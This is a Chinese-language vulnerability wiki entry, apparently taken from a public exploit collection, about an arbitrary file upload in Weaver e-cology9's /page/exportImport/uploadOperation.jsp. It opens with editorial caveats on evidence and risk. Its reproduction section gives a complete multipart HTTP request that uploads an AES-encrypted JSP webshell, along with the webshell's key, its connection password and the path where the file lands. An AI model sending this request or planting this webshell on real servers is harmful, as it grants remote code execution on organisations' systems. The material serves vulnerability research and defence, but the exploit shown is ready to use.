



# 泛微e-cology9 uploadOperation.jsp任意文件上传

## 条目说明

- 对象与具体问题：泛微e-cology9；uploadOperation.jsp任意文件上传
- 版本、配置及部署条件：V9；JSP目录可执行及服务写入权限
- 认证与权限前提：样本无cookie；前置过滤未分析
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 完整multipart和落点，核心源码仅截图；固定Content-Length397与长webshell不匹配
- 叙述1.jsp与样本test.jsp不同应统一变量；HTTP误标bash
- 默认密码rebeyond是载荷连接口令不是OA默认密码，需明确归属
- 缺补丁与具体构建

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

```
泛微OA V9 存在文件上传接口导致任意文件上传
```

### 漏洞影响

```
泛微OA V9
```

### 漏洞复现

漏洞位于: /page/exportImport/uploadOperation.jsp文件中

Jsp流程大概是:判断请求是否是multipart请求,然就没有了,直接上传了,啊哈哈哈哈哈

重点关注File file=new File(savepath+filename),

Filename参数,是前台可控的,并且没有做任何过滤限制



利用非常简单,只要对着

/page/exportImport/uploadOperation.jsp

来一个multipartRequest就可以



然后请求 然后请求路径:

page/exportImport/fileTransfer/1.jsp



请求包

```http
POST /page/exportImport/uploadOperation.jsp HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 397
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36 Edg/89.0.774.68
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6XgyjB6SeCArD3Hc
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
dnt: 1
x-forwarded-for: 127.0.0.1
Connection: close

------WebKitFormBoundary6XgyjB6SeCArD3Hc
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundary6XgyjB6SeCArD3Hc--
```

> 请求长度说明：原资料 Content-Length 为 397；保留原始标头；其数值未据实际请求体重新计算或验证。

地址: /page/exportImport/fileTransfer/test.jsp

默认密码 rebeyond

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
